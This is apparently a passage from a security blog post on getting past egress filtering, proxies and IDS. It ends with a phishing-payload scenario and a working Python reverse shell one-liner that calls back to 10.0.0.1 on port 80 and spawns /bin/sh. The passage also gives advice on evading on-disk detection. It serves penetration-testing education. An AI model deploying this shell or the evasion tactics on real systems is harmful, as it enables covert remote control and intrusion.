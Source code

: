 There are many reasons why someone might want to filter traffic leaving their network. Least privilege is a common principle in security and it stands to reason that we should deny any traffic from leaving our network except for traffic we explicitly allow. Aside from generally being a good idea, egress filtering has been widely adopted as a response to outsiders trying to control devices inside the network. However, an attacker can easily circumvent this by running her shell or CNC over one of the allowed egress ports. For example, if a network allows its users to browse the internet, an attacker could setup a reverse shell that phones home on TCP port 80.

####0x02.04 -- Application/Session Level Protections####
The theory of defense in depth says that if we don't want something to happen we should attempt to prevent it in every possible way, or at least at every layer of our architecture. The above defenses operate mostly at the network and transport layer by filtering or otherwise blocking unwanted traffic. There are also of course other protections operating at the lower layers. The problem up until this point is that there is no way of detecting whether that packet leaving your network on port 80 is someone checking his web mail or me exfiltrating your trade-secrets. Application and session layer protections attempt to address this by ensuring that traffic on a given port looks like traffic on that port is supposed to look. 

For example a corporate network might only allow egress on port 80 and 443. To ensure that their employees are not violating any policies and to prevent other unwanted HTTP traffic, they install a transparent proxy that intercepts and forwards any HTTP traffic, modifies or blocks unwanted content, and forwards it to its intended destination. This type of implementation will most commonly operate in the opposite way as a firewall: it will explicitly block unwanted sites (porn and Facebook), and allow everything else. If an attacker is trying to run ssh over port 80, the proxy wont know what to do with the traffic and wont forward it. 

Another example of an upper-layer protection would be an IDS/IPS. These devices can log or block "illegitimate" traffic. The definition of illegitimate will vary with vendor and implementation, but the IDS' checks can include checks for known signatures of malicious traffic (a well known virus or exploit going over the wire), checks for improperly formatted or irregular traffic (ssh over port 80), or heuristic checks for variations from what the device considers to be normal traffic.

The commonality between all variations of upper level protections is that they attempt to detect or prevent traffic that they see as bad. Lower level protections might be blocking all traffic except for egress port 80 TCP sessions to example.com and it is the application/session layer protections' job to decide whether those packets are valid and benign HTTP traffic....

###0x03 -- Stealthy Solutions###
Imagine you are on a penetration test and are about to send out a phishing email asking user's to read the important message from the CEO contained in your memo.pdf attachment. As you craft your malicious pdf you ask yourself what sort of payload it should execute. There are so many options, but how can you best ensure that your attack goes off undetected. The following is a sampling of reverse shell options as well as a brief discussion of their merits in light of the previous discussion.

####0x03.01 -- Small Interpreted Shells####
These are shells, usually written in interpreted languages, that try to minimize their size in bytes. This is usually just for the sake of elegance, but it can also help with evading some heuristic on-disk detection methods (see [NeoPI](http://github.com/neohapsis/neopi)). These can be launched by injecting them into a running application (think php command injection) or by launching them from the command line. Here are some that we at Neohapsis have written and some favorites from others:

- [Python](https://gist.github.com/1526000)
    {% highlight python %}
exec("import socket,subprocess\nHOST = '10.0.0.1'\nPORT = 80\ns = socket.socket(socket.AF_INET, socket.SOCK_STREAM)\ns.connect((HOST, PORT))\nf = s.fileno()\nsubprocess.Popen('/bin/sh',stdin=f,stdout=f,stderr=f)")
{% endhighlight %}
